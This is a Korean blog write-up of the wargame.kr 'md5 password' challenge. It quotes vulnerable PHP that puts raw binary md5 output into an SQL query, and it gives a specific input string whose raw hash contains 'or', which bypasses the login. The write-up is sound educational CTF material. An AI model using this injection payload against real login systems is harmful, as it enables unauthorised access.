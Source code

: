 ```yaml
---
layout: post
title: ! "[wargame.kr] md5 password"
excerpt_separator: <!--more-->
comments : true
tags:
  - wargame.kr
  - web
  - md5
  - chaem
---
```


md5 password 문제를 보면 다음과 같은 디스크립션을 볼 수 있다.  
<!--more-->
![](/images/chaem/wargame.kr/md5_01.JPG)
```
md5('value', true);
```
md5에 관련된 문제임을 알 수 있다. 문제로 넘어가면 password를 입력하라고 하며, 소스를 보여준다!  
코드를 보면 다음과 같다.  
```
<?php
 if (isset($_GET['view-source'])) {
  show_source(__FILE__);
  exit();
 }

 if(isset($_POST['ps'])){
  sleep(1);
  mysql_connect("localhost","md5_password","md5_password_pz");
  mysql_select_db("md5_password");
  mysql_query("set names utf8");
  /*

  create table admin_password(
   password char(64) unique
  );

  */

  include "../lib.php"; // include for auth_code function.
  $key=auth_code("md5 password");
  $ps = mysql_real_escape_string($_POST['ps']);
  $row=@mysql_fetch_array(mysql_query("select * from admin_password where password='".md5($ps,true)."'"));
  if(isset($row[0])){
   echo "hello admin!"."<br />";
   echo "Password : ".$key;
  }else{
   echo "wrong..";
  }
 }
?>
<style>
 input[type=text] {width:200px;}
</style>
<br />
<br />
<form method="post" action="./index.php">
password : <input type="text" name="ps" /><input type="submit" value="login" />
</form>
<div><a href='?view-source'>get source</a></div>
```
이 중에서 다음 부분을 보면 md5함수를 사용하고 있는 것을 볼 수 있다.  
```
$row=@mysql_fetch_array(mysql_query("select * from admin_password where password='".md5($ps,true)."'"));
```
일단, php에서 md5함수를 어떻게 사용하는지 먼저 알아보았다.  
```
string md5 ( string $str ,[ bool $raw_output ] )
```
bool $raw_output 값이 true 일 경우 해시의 길이 16인 바이너리 형식으로 반환하고, 이 값을 생략하면 기본값은 false로 우리가 일반적으로 사용하는 md5함수와 같이 해시 값을 출력해준다.  

md5함수를 찾아보다가, md5 함수 취약점이 연관 검색어에 있어서 보게되었는데 https://bbolmin.tistory.com/77 요기에 내가 원하는 것이 딱 있었다.  
```
md5("string") -> 32자리의 16진수 값 반환
md5("string", true) -> 16자리의 바이너리 형식으로 반환
```

그리고 이것으로 md5함수를 true로 사용하면 `sql injection`이 가능하다눈 것을 알았다 호호  

그럼 앞에서 보았던 쿼리 문을 보자!
```
select * from admin_password where password='".md5($ps,true)."'
```
여기서 password 값에 `'or'`이 들어간다면 injection이 가능하게 된다.
이 값을 찾는 과정은 http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes 여기에서 자세히 설명해 주고 있는 것 같다.  
나는 검색을 통해 찾았다.  
`129581926211651571912466741651878684928`를 입력하면 'or' 형태의 결과값을 얻을 수 있다고 한다.   

https://cc0ma.github.io/wargame.kr-md5_password/ 요기에서 친절하게 python으로 테스트를 해주었는데, 따라해보면 다음과 같다.  
```
ubuntu@ubuntu:~$ python
Python 2.7.12 (default, Nov 12 2018, 14:36:49)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import hashlib
>>> print hashlib.md5("129581926211651571912466741651878684928").digest()
ٔ0Do#ࠁ'or'8
```
'or' 형태인 것을 확인할 수 있었다.  
따라서 `129581926211651571912466741651878684928`를 입력하면 flag를 획득할 수 있다.  
![](/images/chaem/wargame.kr/md5_02.JPG)
